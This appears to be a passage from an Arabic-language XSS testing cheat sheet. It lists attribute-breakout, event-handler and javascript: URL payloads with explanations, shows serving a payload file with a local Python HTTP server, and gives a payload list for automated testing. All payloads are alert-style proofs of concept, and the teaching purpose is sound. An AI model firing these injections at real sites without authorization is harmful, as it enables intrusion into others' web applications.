 #### د. اختبار سياقات الإدخال
{ #Inline_HTML_Injection /  }
اختبار الحقن في سياقات محددة (مثل السمات أو عناوين URL).
- **الحقن**: `"><script>alert('XSS')</script>`
  - **الإدخال**: أدخل في حقل نموذج: `"><script>alert('XSS')</script>`
  - **كيف يعمل**: يخرج من سمة HTML (مثل `value`) ويُنفذ الشيفرة.
  - **متى يُستخدم؟**: عند اختبار الخروج من السمات.
- **الحقن**: `onerror=alert(1)`
  - **الإدخال**: أدخل في حقل يُستخدم كسمة: `onerror=alert(1)`
  - **كيف يعمل**: يُنفذ التنبيه كسمة حدث.
  - **متى يُستخدم؟**: في سياقات السمات.
- **الحقن**: `" autofocus onfocus=alert(1)//`
  - **الإدخال**: أدخل في حقل إدخال: `" autofocus onfocus=alert(1)//`
  - **كيف يعمل**: يخرج من قيمة إدخال ويُنفذ عند التركيز.
  - **متى يُستخدم؟**: في حقول النماذج.
- **الحقن**: `javascript:alert(1)//`
  - **الإدخال**: أدخل في حقل يُستخدم كـ URL: `javascript:alert(1)//`
  - **كيف يعمل**: يُنفذ التنبيه كعنوان JavaScript.
  - **متى يُستخدم؟**: في سياقات عناوين URL.

#### ط . استخدام payload في شكل صفحه html 
{  #XSS_exploit  }
##### اول حاجه بروح اعمل ملف فيه ال payload```

```bash
echo "alert(1)" > xss.js
```

##### ثاني حاجه اعملها اني اعمل موقع علي جهازي بالامر ده لازم تعمل الامر الاتي في المجلد اللي فيه الملف 

```bash
python -m http.server 80 
```


---
### 2. الحقن للأتمتة
تُستخدم هذه الحقن مع سكربتات (مثل Python مع مكتبة `requests`) لأتمتة اختبار مجموعة من الحقن الأساسية وتحليل الاستجابات. الهدف هو تسريع العملية عند اختبار نقاط إدخال متعددة.

#### أ. إعداد قائمة الحقن
- **المحاولات**:
  - إنشاء قائمة بالحقن الأساسية.
  - مثال قائمة:
    ```
    <script>alert('XSS')</script>
    <script>alert(document.domain)</script>
    <img src=x onerror=alert('XSS')>
    <svg onload=alert(1)>
    <script>console.log('XSS')</script>
    <script>document.body.style.background='red'</script>
    ```
- **كيف يعمل**:
  - يتم إرسال كل حقنة عبر طلب HTTP (GET أو POST).
  - يتم تحليل الاستجابة (مثل رمز الحالة، طول الصفحة، أو نص معين) لتأكيد النجاح.
- **متى يُستخدم؟**:
  - عند اختبار نقاط إدخال متعددة بسرعة.
